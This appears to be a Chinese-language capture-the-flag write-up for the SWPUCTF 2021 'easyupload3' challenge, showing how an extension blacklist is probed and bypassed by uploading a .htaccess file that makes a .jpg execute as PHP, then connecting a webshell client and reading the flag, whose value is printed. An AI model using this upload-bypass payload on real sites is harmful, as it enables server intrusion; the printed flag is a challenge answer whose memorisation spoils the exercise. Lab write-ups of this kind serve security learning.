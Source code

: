 ```yaml
---
title: '[SWPUCTF 2021 新生赛]easyupload3'
date: '2025-05-02T21:46:49+08:00'
weight: 
draft: false
description: '[SWPUCTF 2021 新生赛]easyupload3'
---
```


上传 `fish1.php` 失败，但可以抓到包，判断为 **服务端检查**

![PixPin_2025-04-29_20-28-41](https://Puppy1599.github.io/picx-images-hosting/Typora/networkSecurity/PixPin_2025-04-29_20-28-41.sz5k7xwjn.webp)

上传非图片内容、图片后缀的文件 `fish.jpg` 成功，判断为 **检查后缀**

```text
./upload/fish.jpg succesfully uploaded!
```

上传任意后缀文件 `fish.fish` 成功，判断为 **黑名单**

```text
./upload/fish.fish succesfully uploaded!
```

尝试上传特殊可解析后缀文件 `fish.php5` 失败

```text
你难道想传个🐎某？
```

尝试上传 `.htaccess` 成功

```text {filename=".htaccess"}
<FilesMatch "fish.jpg">
    SetHandler application/x-httpd-php
</FilesMatch>
```

```text
./upload/.htaccess succesfully uploaded!
```

使用蚁剑进行连接

![PixPin_2025-05-01_08-46-19](https://Puppy1599.github.io/picx-images-hosting/Typora/networkSecurity/PixPin_2025-05-01_08-46-19.5xaubnqcw0.webp)

在 `/var/www/html/flag.php` 找到 `flag`

```php
<?php
$flag = 'NSSCTF{2df0fb52-5c72-4f35-a3f3-e70bd06e8416}';
?>
```
